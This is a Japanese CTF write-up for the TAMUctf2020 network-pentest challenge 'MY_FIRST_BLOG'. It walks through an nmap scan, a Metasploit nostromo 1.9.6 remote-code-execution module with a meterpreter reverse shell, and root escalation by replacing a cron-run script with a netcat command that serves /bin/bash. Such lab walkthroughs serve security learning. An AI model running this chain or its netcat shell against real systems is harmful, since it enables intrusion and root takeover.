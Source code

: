 ```yaml
---
title: "【TAMUctf2020 writeup】MY_FIRST_BLOG（NETWORK_PENTEST）"
date:  "2020-03-30T15:04:05+07:00"
author:
  - "さんぽし"
description: "【TAMUctf2020 writeup】MY_FIRST_BLOG（NETWORK_PENTEST）"
draft: true
tags: ["CTF","writeup"]
categories:
  - "security"
---
```


## はじめに
KUDoS として TAMUctf2020 に参加しました。
MY_FIRST_BLOG は唯一解いた問題です。（もっと貢献しろ）
Hack the Box Like ですごい楽しかったです。

難易度的には Hack the Box の easy レベルだと思いました。（そもそも僕が解けてるので…）

## nmap

```
$ nmap -sC -sV 172.30.0.2
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-20 21:58 EDT
Nmap scan report for 172.30.0.2
Host is up (0.18s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    nostromo 1.9.6
|_http-generator: Hugo 0.54.0
|_http-server-header: nostromo 1.9.6
|_http-title: My first blog!
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.86 seconds
```

nostromo 1.9.6 には[nostromo 1.9.6 - Remote Code Execution](https://www.exploit-db.com/exploits/47837)の脆弱性があります

## metasploit使う

```
msf5 exploit(multi/http/nostromo_code_exec) > options

Module options (exploit/multi/http/nostromo_code_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   172.30.0.2       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    80               yes       The target port (TCP)
   SRVHOST  172.30.0.14      yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.30.0.14      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Automatic (Linux Dropper)

```

これで meterpreter の shell が取れます



## /etc/crontabをみる

毎度お世話になっている[高林さん](https://twitter.com/1eDVeCw6hdSLhzB)の以下の記事を参考に調査を進めます
https://kakyouim.hatenablog.com/entry/2020/03/14/031746#Linux

```:/etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root /usr/bin/healthcheck
```

`/etc/crontab`をみると `/usr/bin/healthcheck` が実行され続けていることがわかります。

## Linpeas.sh

Linpeas.sh を使用します。
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

これにより先ほどの `/usr/bin/healthcheck` が書き換え可能であることがわかります
（長いので細かい結果は省略）

## `/usr/bin/healthcheck`を書き換えてbind shellをとる
以下を meterpreter の `upload` コマンドを使って `/usr/bin/healthcheck` と置き換えます。

```:/usr/bin/healthcheck
nc 192.168.100.113 4444 –e /bin/bash
```

4444 番 port で待ち受けさせたので、local で以下のようにすると接続できます。

```
$ nc -nv 172.30.0.2 4444
(UNKNOWN) [172.30.0.2] 4444 (?) open
ls
flag.txt
```

flagGET です

## 終わりに
最近 Hack the Box ばかりやっていて CTF に参加していなかったのですが、CTF はみんなで力を合わせて頑張る感があってすごく楽しいですよね…
今回みたいな PENTEST の問題が出てくる CTF があったらまた貢献できるように頑張りたいです
（本当は Web 問解けるようになりたいんですけど徳丸本すら読破していないのでこういう問題でしか役に立てない）

